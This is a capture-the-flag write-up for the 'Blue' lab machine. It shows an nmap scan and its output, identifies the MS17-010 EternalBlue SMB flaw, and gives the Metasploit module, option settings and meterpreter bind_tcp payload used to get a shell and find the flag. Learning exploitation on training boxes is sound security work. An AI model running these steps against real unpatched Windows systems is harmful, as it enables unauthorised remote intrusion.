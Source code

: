 ![[Blue.png]]

Blue is perhaps the most trademarked and popular box on the platform, and for good reason. It's a very easy and simple setup meant to test the attacker's understanding of metasploit, CVE research, and basic linux commands. There is no better place to start, so why don't we?
# Scan

Our Scan:
`nmap -sV -sC --open -p- 10.10.10.40` 

The Result:
```
Nmap scan report for 10.10.10.40
Host is up (0.13s latency).
Not shown: 64243 closed tcp ports (reset), 1283 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -19m56s, deviation: 34m34s, median: 1s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-09-03T00:23:26
|_  start_date: 2024-09-03T00:20:34
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-09-03T01:23:29+01:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.69 seconds
```

Our NMAP scan gives us solid information. We've got host names, remote procedure call (RPC) ports, etc. The gem here lies in the smb scripts NMAP has run for us! We can see an outdated version of Windows 7, and upon further research, can recognize the vulnerability in MS17_010 or Eternal Blue. This will be our attack vector.

# Initial Access

In order to press on, we need to fire up msfconsole, and search for our proper exploit.

`search exploit/windows/smb/ms17_010_eternalblue` 

Once found, we can configure out options to reflect:

`RHOSTS: 10.0.10.40`
`RPORT: 445`
`LHOST: 10.0.2.15`
`LPORT: 4444`

Additionally, the `reverse/tcp` recommended payload kept throwing errors for me, so I opted for a `bind_tcp` meterpreter session instead.

`set payload windows/x64/meterpreter/bind_tcp`

This yields a shell:

![[Screenshot 2024-09-02 at 9.13.55 PM.png]]

Now, we need to root around for a flag. Use `pwd` and `ls` to scope surroundings, and use `cd ../` to backtrack out of the nonsense. Once the users directory is found, navigate towards the desktop, where the flag resides. I'll let you grab these for yourself! 

#easy #windows #msfconsole 